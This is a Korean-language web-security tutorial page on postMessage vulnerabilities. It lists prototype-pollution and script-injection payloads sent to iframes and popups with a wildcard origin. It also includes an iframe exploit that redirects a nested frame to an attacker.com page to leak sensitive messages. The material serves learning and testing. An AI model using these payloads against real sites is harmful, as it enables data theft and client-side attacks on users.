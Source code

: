 # PostMessage 취약점

{{#include ../../banners/hacktricks-training.md}}

## 메시지 전송 **PostMessage**

**PostMessage**는 메시지를 전송하기 위해 다음 함수를 사용합니다:
```bash
targetWindow.postMessage(message, targetOrigin, [transfer]);

# postMessage to current page
window.postMessage('{"__proto__":{"isAdmin":True}}', '*')

# postMessage to an iframe with id "idframe"
<iframe id="idframe" src="http://victim.com/"></iframe>
document.getElementById('idframe').contentWindow.postMessage('{"__proto__":{"isAdmin":True}}', '*')

# postMessage to an iframe via onload
<iframe src="https://victim.com/" onload="this.contentWindow.postMessage('<script>print()</script>','*')">

# postMessage to popup
win = open('URL', 'hack', 'width=800,height=300,top=500');
win.postMessage('{"__proto__":{"isAdmin":True}}', '*')

# postMessage to an URL
window.postMessage('{"__proto__":{"isAdmin":True}}', 'https://company.com')

# postMessage to iframe inside popup
win = open('URL-with-iframe-inside', 'hack', 'width=800,height=300,top=500');
## loop until win.length == 1 (until the iframe is loaded)
win[0].postMessage('{"__proto__":{"isAdmin":True}}', '*')
```
**targetOrigin**는 '\*' 또는 _https://company.com_과 같은 URL일 수 있습니다.\
**두 번째 시나리오**에서는 **메시지를 해당 도메인으로만 보낼 수 있습니다** (창 객체의 출처가 다르더라도).\
**와일드카드**가 사용되면, **메시지는 모든 도메인으로 전송될 수 있으며**, 창 객체의 출처로 전송됩니다.

### iframe 공격 및 **targetOrigin**의 와일드카드

[**이 보고서**](https://blog.geekycat.in/google-vrp-hijacking-your-screenshots/)에서 설명한 바와 같이, **iframed**(X-Frame-Header 보호 없음)할 수 있는 페이지를 찾고 **와일드카드**(\*)를 사용하여 **postMessage**를 통해 **민감한** 메시지를 **전송하는** 경우, **iframe**의 **origin**을 **수정**하고 **민감한** 메시지를 당신이 제어하는 도메인으로 **유출**할 수 있습니다.\
페이지가 iframed될 수 있지만 **targetOrigin**이 **와일드카드가 아닌 URL로 설정된 경우**, 이 **트릭은 작동하지 않습니다**.
```html
<html>
<iframe src="https://docs.google.com/document/ID" />
<script>
setTimeout(exp, 6000); //Wait 6s

//Try to change the origin of the iframe each 100ms
function exp(){
setInterval(function(){
window.frames[0].frame[0][2].location="https://attacker.com/exploit.html";
}, 100);
}
</script>
```
## addEventListener 악용
